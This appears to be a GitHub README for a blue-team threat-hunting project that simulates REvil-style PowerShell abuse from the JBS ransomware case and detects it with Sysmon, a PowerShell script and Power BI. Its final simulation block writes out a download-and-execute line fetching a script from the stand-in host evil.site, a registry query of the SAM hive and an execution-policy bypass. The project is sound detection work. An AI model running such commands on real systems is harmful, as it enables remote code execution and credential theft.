 # 🛡 Windows Threat Hunter
![PowerShell](https://img.shields.io/badge/script-powershell-blue)
![Sysmon](https://img.shields.io/badge/tool-sysmon-red)
![MITRE ATT&CK](https://img.shields.io/badge/mapping-mitre-orange)
![Power BI](https://img.shields.io/badge/visualisation-powerbi-yellow)

A mini threat detection and analysis project inspired by the 2021 **JBS ransomware attack**.  
This blue team simulation demonstrates how adversaries abuse PowerShell, perform credential access, and retrieve payloads — and how we can detect them with **Sysmon**, **PowerShell scripting**, and **Power BI dashboards**.

---

## 📌 Why I Made This

This project was created as part of my research into attack detection tools commonly used in the industry. My goal was to simulate attacker-like behaviour based on a **real-world ransomware case (REvil)**, extract logs with **custom scripting**, map detections to the **MITRE ATT&CK framework**, and demonstrate everything visually in **Power BI**.

---

## 📖 Real-World Case Study: The JBS Ransomware Attack

In May 2021, the world's largest meat supplier, **JBS**, was targeted by the REvil ransomware group. The attack disrupted meat production across North America and Australia, leading to an $11 million ransom payout. It involved:
- Use of credential access tools and remote payload delivery
- File encryption and operational shutdowns
- Abuse of PowerShell for lateral movement and data exfiltration

> 🔗 Sources: [Wired](https://www.wired.com/story/jbs-ransomware-attack-underscores-dire-threat), [Claroty](https://claroty.com/blog/jbs-attack-puts-food-and-beverage-cybersecurity-to-the-test), [InvestigateMidwest](https://investigatemidwest.org/2023/06/08/jbss-cybersecurity-was-unusually-poor-prior-to-2021-ransomware-attack-internal-homeland-security-records-show)

---

## 🧠 MITRE ATT&CK Mapping

| PowerShell Command | Technique | MITRE ID | Tactic |
|--------------------|-----------|----------|--------|
| `Invoke-WebRequest` | Ingress Tool Transfer | T1105 | Command & Control |
| `New-Object Net.WebClient` | Command Execution | T1059 | Execution |
| `reg query HKLM\SAM` | OS Credential Dumping | T1003 | Credential Access |

---

## 🛠 Tools Used

- 🧩 **Sysmon** – Logs process creation, network, and file events  
- 🐍 **PowerShell** – Scripting to parse and export logs  
- 📊 **Power BI** – Dashboard visualisation of IOC activity  
- 💾 **Visual Studio Code** – Script and site editing  
- 🌐 **GitHub Pages** – Deployed as a public demo site

---

## 🏗 Project Structure

windows-threat-hunter/

├── ioc-finder.ps1 # Script to extract relevant Sysmon events

├── sysmonconfig.xml # Monitoring configuration (SwiftOnSecurity)

├── ioc_events.csv # Exported event data (from script)

├── index.html # Website demo landing page

├── style.css # Simple site styling

├── screenshots/

│ └── powerbi.png # Dashboard screenshot

└── README.md

# Simulate payload download
Invoke-WebRequest -Uri "https://download.sysinternals.com/files/PSTools.zip" -OutFile "C:\Users\Public\PSTools.zip"

# Simulate credential access
reg query HKLM\SAM

# Simulate script execution (will fail but still log)
iex(New-Object Net.WebClient).DownloadString('http://evil.site/script.ps1')

# Extract logs with Script
Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass
.\ioc-finder.ps1
